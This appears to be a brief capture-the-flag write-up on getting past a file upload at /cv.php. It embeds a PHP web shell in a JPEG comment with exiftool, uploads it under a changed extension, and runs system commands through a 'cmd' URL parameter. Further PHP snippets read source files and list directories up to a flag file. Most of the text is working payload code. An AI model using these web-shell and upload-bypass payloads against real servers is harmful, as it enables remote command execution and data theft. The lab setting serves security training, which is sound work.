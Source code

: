 # Bypass Disable Functions

this box has a site with a file upload, on the /cv.php


small.jpg
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.jpeg

upload with burp as test.jpg

repeat but change name too .phpe
mv small.jpg small.php

uploaded it and can run simple php 
so trying some php stuff

{url}/file.php?cmd=id;whoami;ls
```php
<?php
    echo system($_GET["cmd"]);
?>   
```

```php
echo file_get_contents('../index.php')
?>```


```php
<?php
function listFilesInParentDir($dir) {
    $directoryIterator = new DirectoryIterator($dir);
    foreach ($directoryIterator as $file) {
        // if ($file->isFile()) {
            echo $file->getFilename() . PHP_EOL;
        // }
    }
}
$parentDir = realpath(__DIR__ . '/../');
listFilesInParentDir($parentDir);
?>
```

iterating these folders we found the path `/../../../../../../../../home/user/flag.txt`